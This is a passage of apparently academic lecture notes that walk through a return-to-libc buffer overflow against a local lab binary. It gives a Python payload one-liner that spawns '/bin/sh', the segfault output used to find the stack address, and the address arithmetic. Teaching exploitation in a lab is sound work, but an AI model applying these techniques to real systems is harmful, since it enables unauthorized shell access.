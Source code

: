 Boom shell!

## Jumping to the Exploit String

Another option is to write an address to the stack where `system()` will
use it as its argument. Consider that we have control of the stack at
this point, and we can write arbitrarily to the stack, so the question
is, what address do we write? Why not jump to the exploit string itself.

Consider this version of the exploit again this time, I'm going to use
0xdeadbeef for the address of system and then 0xcafebabe for the address
where the address of "/bin/sh" should be.

``` example
user@si485H-base:demo$ ./harder `python -c "cmd='/bin/sh;';print cmd+'A'*(0x28+4-len(cmd))+'\xef\xbe\xad\xde' + 'BBBB' + '\xbe\xba\xfe\xca'"`
/bin/sh;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ?AAAA????
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[ 7089.578719] harder[2566]: segfault at deadbeef ip deadbeef sp bffff690 error 15
```

After the return/leave, the segfault occurs revealing the stack pointer
at the time of the exploit, and this is EXACTLY the information we need
in order to calculate the address of the start of the exploit string
where "/bin/sh;" lives.

Consider again, that after the return and leave, the stack looks like
this:

``` example

  ebp -> ???

         |  ....  |
         |--------|
         |cafebabe|
         |--------|
  esp -> |  BBBB  | ---.
         |--------|    |
         :        :    |
         : ...    :    | 
         : AAAA   :    |  esp - 0x28 - 0x8
         : ;AAA   :    |
         : /cat   :    |
         : /bin   :    |
         ' - -- - '----'
```

Looking at the exploit closely, you see that `esp` references the "BBBB"
following the exploit, we see that this address is exactly 0x28+8 bytes
away from the start of the exploit string. We know this because the
return address was 0x28+4 bytes away, and this is four bytes beyond
that. That means, if we replace 0xcafebabe with
0xbffff690-0x28-8=0xbffff660, we should get the exploit we want. Let's
give it a try:
